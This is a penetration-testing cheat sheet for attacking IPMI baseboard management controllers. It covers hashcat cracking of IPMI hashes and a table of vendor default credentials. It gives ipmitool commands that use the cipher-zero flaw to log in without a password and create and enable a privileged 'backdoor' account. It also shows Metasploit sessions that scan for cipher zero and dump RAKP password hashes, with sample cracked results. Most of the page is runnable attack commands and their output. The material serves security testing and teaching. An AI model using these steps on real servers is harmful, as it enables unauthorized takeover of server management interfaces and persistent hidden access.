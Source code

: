 # IPMI

### Crack IPMI hash with hashcat

```
hashcat -a 3 -m 7300 -i --increment-min=8 --increment-max=8 ipmi.txt -1 ?d?u ?1?1?1?1?1?1?1?1 --username
```

### Default usernames and passwords

| **Product Name**                                    | **Default Username** | **Default Password**                     |
| --------------------------------------------------- | -------------------- | ---------------------------------------- |
| **HP Integrated Lights Out (iLO)**                  | Administrator        | \<factory randomized 8-character string> |
| **Dell Remote Access Card (iDRAC, DRAC)**           | root                 | calvin                                   |
| **IBM Integrated Management Module (IMM)**          | USERID               | PASSW0RD (with a zero)                   |
| **Fujitsu Integrated Remote Management Controller** | admin                | admin                                    |
| **Supermicro IPMI (2.0)**                           | ADMIN                | ADMIN                                    |
| **Oracle/Sun Integrated Lights Out Manager (ILOM)** | root                 | changeme                                 |
| **ASUS iKVM BMC**                                   | admin                | admin                                    |

### Tools

#### ipmitool

```
ipmitool -I lanplus -C 0 -H 172.16.24.246 -U root -P "" user list
ipmitool -I lanplus -C 0 -H 172.16.24.246 -U root -P "" chassis status
ipmitool -I lanplus -C 0 -H 172.16.28.249 -U root -P "" lan print
ipmitool -I lanplus -C 0 -H 172.16.28.249 -U root -P "" user set name 4 backdoor
ipmitool -I lanplus -C 0 -H 172.16.28.249 -U root -P "" user set password 4 Password123
ipmitool -I lanplus -C 0 -H 172.16.28.249 -U root -P "" user priv 2 4
ipmitool -I lanplus -C 0 -H 172.16.28.249 -U root -P "" channel setaccess 1 4 link=on
ipmitool -I lanplus -C 0 -H 172.16.28.249 -U root -P "" user enable 4
ipmitool -I lanplus -C 0 -H 172.16.28.249 -U root -P "" channel getaccess 1 4
```

#### ipmi\_cipher\_zerp (metasploit)

Dan Farmer identified a serious failing of the IPMI 2.0 specification, namely that cipher type 0, an indicator that the client wants to use clear-text authentication, actually allows access with any password. Cipher 0 issues were identified in HP, Dell, and Supermicro BMCs, with the issue likely encompassing all IPMI 2.0 implementations. It is easy to identify systems that have cipher 0 enabled using the ipmi\_cipher\_zero module in the Metasploit Framework.

```
msf> use auxiliary/scanner/ipmi/ipmi_cipher_zero
msf auxiliary(ipmi_cipher_zero) > set RHOSTS 10.0.0.0/24
msf auxiliary(ipmi_cipher_zero) > run

[*] Sending IPMI requests to 10.0.0.0->10.0.0.255 (256 hosts)
[+] 10.0.0.99:623 VULNERABLE: Accepted a session open request for cipher zero
[+] 10.0.0.132:623 VULNERABLE: Accepted a session open request for cipher zero
[+] 10.0.0.141:623 VULNERABLE: Accepted a session open request for cipher zero
[+] 10.0.0.153:623 VULNERABLE: Accepted a session open request for cipher zero
```

#### IPMI 2.0 RAKP authentication remote password hash retrieval

More recently, Dan Farmer identified an even bigger issue with the IPMI 2.0 specification. In short, the authentication process for IPMI 2.0 mandates that the server send a salted SHA1 or MD5 hash of the requested user's password to the client, prior to the client authenticating. You heard that right - the BMC will tell you the password hash for any valid user account you request. This password hash can broken using an offline bruteforce or dictionary attack. Since this issue is a key part of the IPMI specification, there is no easy path to fix the problem, short of isolating all BMCs into a separate network. The ipmi\_dumphashes module in the Metasploit Framework can make short work of most BMCs.

```
msf> use auxiliary/scanner/ipmi/ipmi_dumphashes
msf auxiliary(ipmi_dumphashes) > set RHOSTS 10.0.0.0/24
msf auxiliary(ipmi_dumphashes) > set THREADS 256

msf auxiliary(ipmi_dumphashes) > run
 
[+] 10.0.0.59 root:266ead5921000000....000000000000000000000000000000001404726f6f74:eaf2bd6a5 3ee18e3b2dfa36cc368ef3a4af18e8b
[+] 10.0.0.59 Hash for user 'root' matches password 'calvin'
[+] 10.0.0.59 :408ee18714000000d9cc....000000000000000000000000000000001400:93503c1b7af26abee 34904f54f26e64d580c050e
[+] 10.0.0.59 Hash for user '' matches password 'admin'
```

In the example above, the module was able to identify two valid user accounts (root and blank), retrieve the hmac-sha1 password hashes for these accounts, and automatically crack them using an internal wordlist. If a database is connected, Metasploit will automatically store the hashed and clear-text version of these credentials for future use. If a user's password is not found in the local dictionary of common passwords, an external password cracking program can be employed to quickly brute force possible options. The example below demonstrates how to write out John the Ripper and Hashcat compatible files.

```
msf auxiliary(ipmi_dumphashes) > set RHOSTS 10.0.1.0/24
msf auxiliary(ipmi_dumphashes) > set THREADS 256

msf auxiliary(ipmi_dumphashes) > set OUTPUT_JOHN_FILE out.john

msf auxiliary(ipmi_dumphashes) > set OUTPUT_HASHCAT_FILE out.hashcat

msf auxiliary(ipmi_dumphashes) > run

 

[+] 10.0.1.100 root:ee33c2e02700000....000000000000000000000000000000001404726f6f74:8c576f6532 356cc342591204f41cc4eab7da6e8a
```

